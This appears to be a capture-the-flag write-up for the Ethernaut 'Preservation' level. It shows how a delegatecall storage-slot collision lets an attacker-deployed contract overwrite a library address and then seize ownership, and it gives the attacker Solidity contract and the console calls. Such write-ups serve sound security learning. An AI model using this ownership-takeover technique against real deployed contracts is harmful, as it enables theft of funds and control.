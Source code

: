 [16 - Preservation](https://ethernaut.openzeppelin.com/level/0x2754fA769d47ACdF1f6cDAa4B0A8Ca4eEba651eC)

Solution: 
* Preservation contract uses delegatecall, which means the calls keep Preservation's context
```
address public timeZone1Library;
address public timeZone2Library;
address public owner; 
uint storedTime;
```
* we need to find a way to change slot 2 of the Preservation contract (address has 20 bytes and can't fit two in the same slot => owner is on slot 2)
* when we call setFirstTime or setSecondTime, it will change the first slot in the library contract, but because of delegate call, it will actually change the first slot in the Preservation contract
* deploy a third library contract, with the same storage layout as Preservation (address, address, address). It will live at address X
* call Preservation.setFirstTime(<the uint256 equivalent of X>), which will change the first library's address in Preservation
* calling Preservation.setFirstTime will now call the third library, where we will have ownership change implemented

* deployed PreservationSolve at 0xEb27dc83C7440b060A62Aa33caD48E14eBa4e4e5
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Simple library contract to set the time
contract PreservationSolve {
  address public doesntMatter1;
  address public doesntMatter2;
  address public owner; 

  function setTime(uint) public {
    owner = tx.origin;
  }
}
```
* await contract.setFirstTime("0x000000000000000000000000Eb27dc83C7440b060A62Aa33caD48E14eBa4e4e5"); to change library address 
* await contract.setFirstTime("0x000000000000000000000000Eb27dc83C7440b060A62Aa33caD48E14eBa4e4e5"); again to change owner